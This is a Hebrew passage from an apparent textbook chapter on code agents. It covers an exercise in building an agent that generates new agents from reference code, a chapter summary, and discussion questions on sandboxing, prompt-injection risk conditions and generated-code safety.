כאשר סוכן מקבל משימה לפתח סוכן חדש, עליו תחילה להעתיק את הקוד שלו עצמו (או מימושים אחרים מאומתים ואיכותיים) ואז לבצע שינויים ממוקדים: להתאים את הנחיית המערכת לתפקיד החדש, להחליף או להוסיף כלים כדי להתאים לתפקודים חדשים, ולשנות לוגיקה עסקית תוך שימור המסגרת הארכיטקטונית. דפוס "שכפול עצמי עם שינוי מסתגל" זה מבטיח שהסוכן החדש יירש את יתרונות הליבה הטכניים תוך מתן אפשרות לבידול בממדים ספציפיים — בדומה מאוד לשכפול גנים עם מוטציה בביולוגיה.

> **ניסוי 5‑13 ★★★: פיתוח סוכן שיכול ליצור סוכנים**
>
> **מטרת הניסוי**: לבנות סוכן קוד בעל יכולות מטא‑תכנות — היכולת לכתוב תוכניות המייצרות או משנות תוכניות אחרות — כך שיוכל ליצור אוטומטית מערכות סוכן חדשות מדרישות משתמשים תוך היצמדות לשיטות עבודה מומלצות.
>
> **גישה טכנית**: ספקו לסוכן הקוד מימושי סוכן איכותיים כדוגמאות ייחוס (ניתן להשתמש בפרויקט ch5/coding-agent עצמו). כשמוטלת עליו משימה ליצור סוכן חדש, הסוכן תחילה מעתיק את קוד הדוגמה הזה ואז מבצע שינויים ממוקדים על בסיס הצרכים הספציפיים של המשתמש.
>
> **קריטריוני קבלה**: הסוכן שנוצר רץ בהצלחה ומשלים משימות בסיסיות. אמתו שהוא משתמש בפורמטי הודעות ובפרוטוקולי קריאה לכלים סטנדרטיים, במודלים ובממשקי API המומלצים כרגע, ובניהול הקשר ומצב נכון על פני תורות שיחה מרובות. השוו יצירה מאפס לשינוי מבוסס דוגמאות, ואשרו שהאחרון משפר איכות ויעילות.
>
>
> 
>
>

הנעה עצמית של סוכנים היא היישום האולטימטיבי של יצירת קוד — סוכן שיכול ליצור סוכנים משיג את השכפול העצמי של האינטליגנציה. בכך, עקבנו אחר הקשת המלאה של הפרק: מיסודות סוכן הקוד, דרך השימושים הרבים של יצירת קוד, ועד להנעה עצמית.

## סיכום הפרק

פרק זה טען דבר אחד לכל אורכו: קוד אינו רק כלי לכתיבת תוכניות — הוא שפת החשיבה המפורמלת והביטוי המדויק של הסוכן.

סעיף הנדסת ה‑Harness הגיע למסקנה מרכזית אחת: סוכני קוד בשלים לא משום שמודלי יצירת הקוד חזקים במיוחד, אלא משום שעשרות שנים של תשתית הנדסת תוכנה שנצברה — מערכי בדיקות, מערכות טיפוסים, בקרת גרסאות — מהוות באופן טבעי Harness רב עוצמה. מסקנה זו ראויה לנדוד לתרחישי סוכן אחרים. הסעיף על כשל והתאוששות משגיאות מציע את הצד השני של אותו נושא: אמינותו של סוכן נקבעת לא לפי האם המודל עושה טעויות, אלא לפי האם לכל מחלקת כשלים יש מסלול זיהוי, התאוששות וסיום מתאים.

החלק השני הדגים את הערך הרחב של יצירת קוד מעבר לתכנות, בהתאמה לששת הממדים בגוף הטקסט:

- **כלי חשיבה**: מינוף חישוב סמלי ופתרון אילוצים כדי לפצות על חסרונותיה של החשיבה ההסתברותית
- **אילוצי כללים עסקיים**: ביטוי כללים עסקיים באופן חד‑משמעי ואספקת רשת ביטחון דטרמיניסטית לפעולות בלתי הפיכות, שבהן ערך הערובה עולה בהרבה על עלות מימושה
- **יצירה רב‑מדיה**: יצירת תוכן רב‑מודאלי כגון מצגות וסרטונים באמצעות מנגנון מציע–סוקר
- **מתאם מערכת**: מעקב אוטומטי אחר התפתחות פורמטים כדי להשיג אוטומציה מלאה של ניתוח יומנים ואבחון בעיות
- **Generative UI**: יצירה דינמית של טפסים, ויזואליזציות ואף יישומים שלמים הניתנים להתאמה אישית, תוך שחרור ממגבלות הטקסט הפשוט
- **הנעה עצמית של סוכנים**: שימוש בקוד לתיקון סוכנים קיימים וליצירת חדשים, ובסופו של דבר מתן אפשרות לסוכן ליצור סוכנים אחרים

ערכו של הקוד לסוכן מסתכם בכך: הוא בעת ובעונה אחת אמצעי להשלמת משימות ומנגנון לצבירת ידע, ליצירת כלים ולשיפור עצמי — "מטא‑יכולת" אמיתית.

בשלב זה שילבנו הקשר, ידע, כלים ויכולות קידוד לכדי הארכיטקטורה היסודית של סוכן לשימוש כללי, כשיצירת קוד היא המטא‑יכולת הכללית ביותר שלו. ובכל זאת, חמשת הפרקים הראשונים עדיין מניחים שהסוכן והעולם פועלים לסירוגין. פרק 6 משלים את החלק האחרון של "בניית סוכנים" בהרחבת מרחבי התצפית והפעולה לאירועים אסינכרוניים, לקול, למסכים ולעולם הפיזי; ברגע שהחלק הזה במקומו, פרק 7 פונה להערכה ולשיפור מתמשך.

## שאלות למחשבה

1. ★★ יצירת קוד מכונה "מטא‑יכולת" של סוכן. אך הרצת קוד מציגה סיכוני אבטחה — קוד שנוצר על ידי סוכן עלול להכיל פגיעויות, להיכנס ללולאות אינסופיות, או למצות משאבים. ארגז חול יכול להקל על חלק מהסיכונים הללו, אך הוא גם מגביל את מה שהקוד יכול לעשות, למשל באמצעות מניעת גישה לרשת או למערכת הקבצים. כיצד ניתן למצוא את האיזון האופטימלי בין אבטחה ליכולת?
2. ★★★ הנעה עצמית של סוכנים — סוכן שיכול ליצור סוכנים — מאפשרת את "הרבייה העצמית של האינטליגנציה". אך כל איטרציית הנעה עצמית עלולה להכניס הטיות או שגיאות חדשות. האם שגיאות אלה יצטברו לאורך הדורות? כיצד ניתן למנוע התדרדרות בהנעה עצמית של סוכנים?
3. ★★ כאשר סוכן יצירת קוד מטפל בניתוח יומנים, הוא יכול לעקוב אוטומטית אחר התפתחות הפורמטים. אך אם שינוי פורמט הוא באג ולא שינוי מכוון, יכולת ההסתגלות של הסוכן עלולה דווקא להסתיר את הבעיה. כיצד הסוכן צריך להבחין בין "שינוי הדורש הסתגלות" ל"חריגה הדורשת דיווח"?
4. ★★ פרק זה משתמש שוב ושוב במנגנון המציע–סוקר ביצירת מצגות, בעריכת וידאו ובוויזואליזציית יומנים. אם ההעדפות האסתטיות של הסוקר שונות מאלה של משתמש היעד — לדוגמה, אם הסוקר סבור שצפיפות המידע סבירה אך המשתמש מוצא אותה צפופה מדי — לולאת המשוב עלולה להתכנס לאופטימום מקומי שגוי. כיצד ניתן לשלב משוב על העדפות המשתמש בלולאת הסוקר?
5. ★★ פרק זה מדגים כמה דרכים שבהן סוכן קוד יכול לגבש ניסיון שנרכש דרך ביצוע וניפוי שגיאות בחזרה לבסיס הקוד — כתיבת קובצי בסיס ידע, עדכון תיעוד ארכיטקטורה, תחזוקת קובצי הוראות פרויקט, וקידוד רצפי פעולות כקוד. אם ניסיון זה מזוקק בהמשך לכללים בהנחיית המערכת, מערך הכללים ימשיך להתרחב עם הזמן. כיצד ניתן לבצע "איסוף אשפה" על הכללים שנצברו כדי לזהות ולהסיר רשומות מיותרות או מיושנות? מדוע שינוי קוד מוצלח יחיד אינו עדיין התפתחות מתמשכת במובן של פרק 9?
6. ★ "צוותים הידידותיים לעבודה מרחוק ידידותיים לעיתים קרובות גם לסוכני AI." עד כמה הצוות או הארגון שלכם קרובים להיות "מוכני AI" מבחינת תיעוד ידע? מהו המכשול הגדול ביותר?
7. ★★★ סיימון וויליסון הציע את "השילוש הקטלני" לסוכנים — גישה לנתונים פרטיים, חשיפה לתוכן בלתי מהימן, ויכולת תקשורת חיצונית. פרק זה מוסיף מרכיב רביעי: זיכרון מתמיד. כיצד הייתם מעצבים אסטרטגיית אבטחה לסביבת ייצור שחייבת לטפל בכל הארבעה בו‑זמנית?
8. ★★ דפוס ה‑Artifact מאפשר לסוכן לייצר SQL או קוד ויזואליזציה להרצה ישירה על ידי הצד הקדמי, ובכך לעקוף את הצורך שה‑LLM יעבד נפחים גדולים של נתונים. מהם היתרונות והחסרונות של חלוקת עבודה זו — "הסוכן מייצר קוד, המערכת מריצה קוד" — בהשוואה לדפוס המסורתי שבו הסוכן מספק ישירות את התשובה? יתרה מזו, SQL שנוצר עלול לבצע פעולות הרסניות, ו‑HTML שנוצר עלול להכיל פגיעויות. כיצד ניתן להבטיח את אבטחת המערכת?
9. ★★ קידוד כללים עסקיים כאימותים מול אמת הקרקע של מסד הנתונים, תוך שימוש בעיצוב פרמטרים כדי להנחות את המודל לבדוק תנאי מדיניות לפני ביצוע קריאה, משתמש במהותו במבנה הקוד כדי לרסן את התנהגות הסוכן. מהם היתרונות והמגבלות של דפוס "קוד ככללים" זה בהשוואה לכללים המבוטאים בשפה טבעית?
